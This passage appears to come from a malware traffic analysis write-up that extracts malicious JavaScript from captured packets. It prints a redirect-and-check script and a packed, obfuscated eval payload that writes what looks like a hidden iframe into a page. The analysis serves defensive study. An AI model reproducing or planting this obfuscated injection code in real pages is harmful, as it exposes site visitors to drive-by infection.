 
### Finding other possible malicious JavaScript: Found one at `packet 714`

Command:

```c
type jscode4.js | js-ascii.exe -e "document.output('D')" -
```

Output:

![](/assets/img/Pasted image 20240809152658.png)


JavaScript code:

```c
function Complete(){setTimeout('location.href = "about:blank',2000);}
function CheckIP(){var req=null;try{req=new ActiveXObject("Msxml2.XMLHTTP");}catch(e){try{req=new ActiveXObject("Microsoft.XMLHTTP");}catch(e){try{req=new XMLHttpRequest();}catch(e){}}}
if(req==null)return"0";req.open("GET","/fg/show.php?get_ajax=1&r="+Math.random(),false);req.send(null);if(req.responseText=="1"){return true;}else{return false;}}
Complete();
```

	- Similar to packet 178


### Missed malicious JavaScript code at `packet 28`

![](/assets/img/Pasted image 20240809162154.png)


<u>JavaScript code</u>:

```c
<script type="text/javascript">

eval(function(p,a,c,k,e,r){
	e=function(c){
		return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))
	};
	if(!''.replace(/^/,String)){
		while(c--)
			r[e(c)]=k[c]||e(c);
		k=[function(e){return r[e]}];
		e=function(){return'\\w+'};
		c=1
	};
	while(c--)
		if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);
	return p
}
('q.r(s("%h%0%6%d%e%7%1%8%9%d%3%4%a%5%2%2%i%j%b%b%9%i%c%k%0%2%7%1%l%3%k%7%l%3%m%b%t%3%c%0%3%u%4%v%6%1%f%w%e%x%f%y%6%a%z%0%g%2%5%4%n%8%5%1%0%A%5%2%4%n%8%9%2%o%c%1%4%a%B%0%9%0%f%0%c%0%2%o%j%8%5%0%g%g%1%m%a%p%h%b%0%6%d%e%7%1%p%C"));',39,39,'69|65|74|63|3D|68|66|6D|20|73|22|2F|6C|72|61|62|64|3C|70|3A|6F|2E|6E|31|79|3E|document|write|unescape|3F|6B|33|35|36|32|77|67|76|0A'.split('|'),0,{}));

</script>
```
